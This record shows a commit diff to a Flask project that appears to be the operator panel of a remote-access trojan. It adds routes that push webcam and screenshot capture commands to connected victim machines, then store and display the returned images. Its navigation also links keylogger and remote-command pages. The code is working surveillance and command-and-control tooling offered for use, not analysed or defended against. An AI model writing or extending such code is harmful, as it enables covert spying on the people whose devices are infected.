
After one commit to Dharshan-SP/GhostWire-Overwatch, a Flask app: page /webcam_capture in a window 1280 px wide. The commit adds this page. Shown: the top 300 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over.

Commit message:
clean baseline

```diff
--- a/server.py
+++ b/server.py
@@ -1,3 +1,4 @@
+
 import socket
 import threading
 import asyncio
@@ -5,9 +6,15 @@ import websockets
 import base64
 import logging
 import time
-from flask import Flask, render_template, request, send_file, redirect, url_for
+import os
+from datetime import datetime
+import json
+from flask import Flask, render_template, request, send_file, redirect, url_for, send_from_directory
 from flask_cors import CORS
-import os
+
+# --- Flask App Initialization ---
+app = Flask(__name__)
+CORS(app)
 
 # --- Configuration ---
 HOST = "0.0.0.0"
@@ -28,6 +35,27 @@ frame_lock = threading.Lock()
 cmd_lock = threading.Lock()
 key_lock = threading.Lock()
 browser_ws_clients = set()
+
+# Metadata file for images
+IMAGE_METADATA_FILE = os.path.join(os.path.dirname(__file__), "images", "metadata.json")
+
+def save_image_metadata(filename, device, timestamp):
+    os.makedirs(os.path.dirname(IMAGE_METADATA_FILE), exist_ok=True)
+    try:
+        if os.path.exists(IMAGE_METADATA_FILE):
+            with open(IMAGE_METADATA_FILE, "r") as f:
+                data = json.load(f)
+        else:
+            data = []
+    except Exception:
+        data = []
+    data.append({
+        "filename": filename,
+        "device": device,
+        "time": timestamp
+    })
+    with open(IMAGE_METADATA_FILE, "w") as f:
+        json.dump(data, f)
 
 # --- TCP Server Setup ---
 tcp_server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
@@ -70,23 +98,119 @@ def command():
         output = cmd_output
     return render_template("command.html", output=output)
 
-@app.route("/webcam")
+@app.route("/webcam", methods=["GET", "POST"])
 def webcam():
+    global clients
+    if request.method == "POST":
+        # Send webcam capture command to all clients
+        for client in clients:
+            try:
+                client.send(b"CMD:WEBCAM")
+            except Exception as e:
+                logging.error(f"Send WEBCAM CMD failed: {e}")
+        time.sleep(0.5)
     with frame_lock:
         frame = latest_frame
     if frame:
-        return render_template("webcam.html", image_data=frame.decode())
+        # Clean up the base64 string
+        if isinstance(frame, bytes):
+            frame = frame.decode(errors="ignore")
+        frame_clean = frame.replace('\n', '').replace('\r', '').strip()
+        try:
+            img_data = base64.b64decode(frame_clean + '=' * (-len(frame_clean) % 4))
+        except Exception as e:
+            logging.error(f"Base64 decode error: {e}")
+            return render_template("webcam.html", image_data=None)
+        img_dir = os.path.join(os.path.dirname(__file__), "images")
+        os.makedirs(img_dir, exist_ok=True)
+        device = "Unknown"
+        timestamp = datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
+        filename = f"webcam_{timestamp}.jpg"
+        img_path = os.path.join(img_dir, filename)
+        with open(img_path, "wb") as f:
+            f.write(img_data)
+        save_image_metadata(filename, device, timestamp)
+        return render_template("webcam.html", image_data=frame_clean)
     return render_template("webcam.html", image_data=None)
+
+# --- Screenshot Capture Page ---
+@app.route("/screenshot_capture", methods=["GET", "POST"])
+def screenshot_capture():
+    image_url = None
+    timestamp = None
+    device = None
+    if request.method == "POST":
+        # Send screenshot command to all clients
+        for client in clients:
+            try:
+                client.send(b"CMD:SCREENSHOT")
+            except Exception as e:
+                logging.error(f"Send SCREENSHOT CMD failed: {e}")
+        # Wait for client to send screenshot (should be handled in handle_client)
+        time.sleep(0.5)
+        # Find the latest screenshot in images folder
+        img_dir = os.path.join(os.path.dirname(__file__), "images")
+        screenshots = [f for f in os.listdir(img_dir) if f.startswith("screenshot_") and f.endswith(".jpg")]
+        if screenshots:
+            latest = max(screenshots, key=lambda x: os.path.getctime(os.path.join(img_dir, x)))
+            image_url = url_for("serve_image", filename=latest)
+            timestamp = latest.replace("screenshot_", "").replace(".jpg", "")
+            device = "Unknown"
+    return render_template("screenshot_capture.html", image_url=image_url, timestamp=timestamp, device=device)
+
+# --- Webcam Capture Page ---
+@app.route("/webcam_capture", methods=["GET", "POST"])
+def webcam_capture():
+    image_url = None
+    timestamp = None
+    device = None
+    if request.method == "POST":
+        # Send webcam command to all clients
+        for client in clients:
+            try:
+                client.send(b"CMD:WEBCAM")
+            except Exception as e:
+                logging.error(f"Send WEBCAM CMD failed: {e}")
+        time.sleep(0.5)
+        # Find the latest webcam image in images folder
+        img_dir = os.path.join(os.path.dirname(__file__), "images")
+        webcams = [f for f in os.listdir(img_dir) if f.startswith("webcam_") and f.endswith(".jpg")]
+        if webcams:
+            latest = max(webcams, key=lambda x: os.path.getctime(os.path.join(img_dir, x)))
+            image_url = url_for("serve_image", filename=latest)
+            timestamp = latest.replace("webcam_", "").replace(".jpg", "")
+            device = "Unknown"
+    return render_template("webcam_capture.html", image_url=image_url, timestamp=timestamp, device=device)
 
 @app.route("/download_webcam")
 def download_webcam():
     with frame_lock:
         if latest_frame:
             img_data = base64.b64decode(latest_frame)
-            with open("webcam_snapshot.jpg", "wb") as f:
+            img_dir = os.path.join(os.path.dirname(__file__), "images")
+            os.makedirs(img_dir, exist_ok=True)
+            timestamp = datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
+            img_path = os.path.join(img_dir, f"webcam_{timestamp}.jpg")
+            with open(img_path, "wb") as f:
                 f.write(img_data)
-            return send_file("webcam_snapshot.jpg", as_attachment=True)
+            return send_file(img_path, as_attachment=True)
     return ("", 204)
+# Serve images statically
+from flask import send_from_directory
+
+@app.route("/images/<filename>")
+def serve_image(filename):
+    img_dir = os.path.join(os.path.dirname(__file__), "images")
+    return send_from_directory(img_dir, filename)
+
+# Images gallery page
+@app.route("/images_gallery")
+def images_gallery():
+    images = []
+    if os.path.exists(IMAGE_METADATA_FILE):
+        with open(IMAGE_METADATA_FILE, "r") as f:
+            images = json.load(f)
+    return render_template("images.html", images=images)
 
 @app.route("/control", methods=["GET", "POST"])
 def control():
@@ -156,6 +280,21 @@ def handle_client(client_socket):
                 with frame_lock:
                     global latest_frame
                     latest_frame = img_data.encode()
+            if data.startswith(b"SCREENSHOT:"):
+                img_data = data[len("SCREENSHOT:"):].decode()
+                # Save screenshot to images folder
+                img_dir = os.path.join(os.path.dirname(__file__), "images")
+                os.makedirs(img_dir, exist_ok=True)
+                timestamp = datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
+                filename = f"screenshot_{timestamp}.jpg"
+                img_path = os.path.join(img_dir, filename)
+                try:
+                    img_bytes = base64.b64decode(img_data + '=' * (-len(img_data) % 4))
+                    with open(img_path, "wb") as f:
+                        f.write(img_bytes)
+                    save_image_metadata(filename, "Unknown", timestamp)
+                except Exception as e:
+                    logging.error(f"Failed to save screenshot: {e}")
             else:
                 logging.info(f"Received: {data[:50]}")
         except Exception as e:
--- a/templates/base.html
+++ b/templates/base.html
@@ -37,10 +37,15 @@
         <li class="nav-item"><a class="nav-link" href="{{ url_for('keylogger') }}">Keylogger</a></li>
         <li class="nav-item"><a class="nav-link" href="{{ url_for('command') }}">Command</a></li>
         <li class="nav-item"><a class="nav-link" href="{{ url_for('webcam') }}">Webcam</a></li>
+          <li class="nav-item"><a class="nav-link" href="{{ url_for('webcam_capture') }}">Webcam Capture</a></li>
+          <li class="nav-item"><a class="nav-link" href="{{ url_for('screenshot_capture') }}">Screenshot Capture</a></li>
       </ul>
     </div>
   </nav>
   <div class="container mt-4">
+    {% if request.endpoint != 'index' %}
+      <a class="btn btn-outline-light mb-3" href="{{ url_for('index') }}">Back to Home</a>
+    {% endif %}
     {% block content %}{% endblock %}
   </div>
 </body>
--- a/templates/clients.html
+++ b/templates/clients.html
@@ -5,11 +5,14 @@
   <title>Connected Clients</title>
   <style>
     body { background: #121212; color: #0f0; font-family: sans-serif; padding: 20px; }
+    a.back-home { color: #0f0; text-decoration: none; border: 1px solid #0f0; padding: 8px 12px; border-radius: 6px; display: inline-block; margin-bottom: 16px; }
+    a.back-home:hover, a.back-home:focus { text-decoration: underline; }
     ul { list-style: none; padding: 0; }
     li { background: #1e1e1e; margin: 10px 0; padding: 10px; border-left: 5px solid #0f0; }
   </style>
 </head>
 <body>
+  <a class="back-home" href="{{ url_for('index') }}">Back to Home</a>
   <h2>🧑‍💻 Active Clients</h2>
   <ul>
     {% for client in clients %}
--- /dev/null
+++ b/templates/webcam_capture.html
@@ -0,0 +1,17 @@
+{% extends "base.html" %}
+{% block content %}
+<div class="container mt-4">
+    <h2>Webcam Capture</h2>
+    <form method="POST" action="{{ url_for('webcam_capture') }}">
+        <button type="submit" class="btn btn-primary">Capture Webcam Image</button>
+    </form>
+    {% if image_url %}
+    <div class="mt-4">
+        <h5>Last Captured Image:</h5>
+        <img src="{{ image_url }}" alt="Webcam Image" class="img-fluid" style="max-width:400px;">
+        <p class="mt-2">Captured at: {{ timestamp }}</p>
+        <p>Device: {{ device }}</p>
+    </div>
+    {% endif %}
+</div>
+{% endblock %}
```
Also changed, not shown: client.py (+55 -10 lines), images/metadata.json (added, +1 -0 lines), templates/display.html (+14 -0 lines), templates/help.html (+14 -0 lines), templates/images.html (added, +34 -0 lines), templates/screenshot_capture.html (added, +17 -0 lines), keylog.txt (deleted).
